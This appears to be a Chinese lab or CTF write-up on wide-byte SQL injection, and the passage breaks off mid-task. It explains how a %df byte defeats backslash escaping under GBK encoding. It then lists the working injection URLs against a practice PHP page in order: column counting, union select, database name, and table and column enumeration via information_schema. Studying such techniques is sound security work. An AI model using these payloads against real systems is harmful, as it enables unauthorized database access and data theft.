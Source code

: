 ### 实践实例

所谓宽字节注入，原理在于开发人员在开发的时候，对传入的参数进行了特殊的函数处理，比如使用了trim()函数，htmlspecialchars()函数，addlashes函数，是可以过滤我们非法提交的参数，从而导致SQL注入无法成功。作为攻击者，要完成的是对参数的拼接，从而导致恶意的SQL语句写入

开始注入，先测试单引号等情况，发现不可行，将id改成-1后页面消失，所以判断存在注入情况

[![img](http://cdn.ayusummer233.top/img/2413639-20211126222901222-1283585992.png)](https://img2020.cnblogs.com/blog/2413639/202111/2413639-20211126222901222-1283585992.png)

之后用宽字节注入方式 %df，原理在于在GBK编码中,反斜杠的编码是%5c,在输入%df后，使得添加反斜杠后形成%df%5c，而%df%5c是繁体字“連”，单引号成功逃逸，爆出Mysql数据库的错误

http://219.153.49.228:48514/new_list.php?id=1 %df'

[![img](http://cdn.ayusummer233.top/img/2413639-20211126222901925-2004633705.png)](https://img2020.cnblogs.com/blog/2413639/202111/2413639-20211126222901925-2004633705.png)

发现报错后，添加注释符，报错消失，判断是单引号闭合

http://219.153.49.228:48514/new_list.php?id=1 %df' %23

[![img](http://cdn.ayusummer233.top/img/2413639-20211126222901948-824653570.png)](https://img2020.cnblogs.com/blog/2413639/202111/2413639-20211126222901948-824653570.png)

**注意：这里很重要的一点，也算是我之前走的坑，这里如果进行测试，#在微软的Edge上是无法实现的，只能使用--+，而在火狐上面则是可以使用%23和--+，同时在这里对注释进行说明，注释分为两种，一种是#，另一种是--(空格)，这里重点说第二种，--是注释符，之后只有在有一个空格的情况下，后面的语句才会被当成注释，但是如果只是--没有空格，则不会当成注释，在SQL语句中+可以作为空格来连接，所以我们避免在注入时，注入点后紧接着一个语句，使得注释符后由于没有空格导致无法形成注释的情况，自己加一个+作为空格，形成注释符，而#在URL里确实有特殊含义，且有些GET型禁止出现#号，所以如果以后#不生效，可以尝试--+**

接下来使用order by语句判断列，发现6会报错，5可以，所以确定为5列

http://219.153.49.228:48514/new_list.php?id=1 %df' order by 5 %23

[![img](http://cdn.ayusummer233.top/img/2413639-20211126222901367-360851620.png)](https://img2020.cnblogs.com/blog/2413639/202111/2413639-20211126222901367-360851620.png)

回显报错位为3和5

http://219.153.49.228:48514/new_list.php?id=-1 %df' union select 1,2,3,4,5 %23

[![img](http://cdn.ayusummer233.top/img/2413639-20211126222901216-1521866462.png)](https://img2020.cnblogs.com/blog/2413639/202111/2413639-20211126222901216-1521866462.png)

获取数据库名为 mozhe_discuz_stormgroup

http://219.153.49.228:48514/new_list.php?id=-1 %df' union select 1,2,database(),4,5 %23

[![img](http://cdn.ayusummer233.top/img/2413639-20211126222901949-1784934307.png)](https://img2020.cnblogs.com/blog/2413639/202111/2413639-20211126222901949-1784934307.png)

获取表名为 notice,stormgroup_member

http://219.153.49.228:48514/new_list.php?id=-1 %df' union select 1,2,database(),4,group_concat(table_name) from information_schema.tables where table_schema=database() %23

[![img](http://cdn.ayusummer233.top/img/2413639-20211126222901344-271263392.png)](https://img2020.cnblogs.com/blog/2413639/202111/2413639-20211126222901344-271263392.png)

获取stormgroup_member表的列名，但是这里对单引号有过滤

http://219.153.49.228:48514/new_list.php?id=-1 %df' union select 1,2,database(),4,group_concat(column_name) from information_schema.columns where table_name='stormgroup_member' %23
